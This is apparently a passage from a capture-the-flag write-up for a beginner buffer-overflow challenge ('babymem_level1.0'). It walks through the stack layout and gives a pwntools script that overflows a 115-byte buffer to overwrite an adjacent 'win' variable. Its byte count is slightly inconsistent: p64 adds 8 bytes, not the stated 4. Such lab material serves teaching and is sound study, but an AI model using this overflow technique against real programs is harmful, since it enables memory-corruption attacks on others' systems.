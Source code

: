 
In this case, the pointer to the buffer is stored at `(rsp+0x0030)` and the pointer to the `win` variable is located at `(rsp+0x0038)`. These are not to be confused with the actual location of the buffer or the win variable.

The actual `win` variable is located right after the buffer, at `(rsp+0x00b4)`.

In order to overwrite the variable, we have to first overflow the buffer, whose size is 115 bytes.

So the buffer and `win` variable, are located as follows:

```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
```

So as soon as the buffer ends, we have a single `NULL` byte, possibly a `padding byte`. And then we have our win variable which is 4 bytes long.

This means that we need to provide a payload of (115 + 1 + 4) bytes.

We are going to use pwntools in order to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

As we can see we have successfully overwritten the win function.

&nbsp;

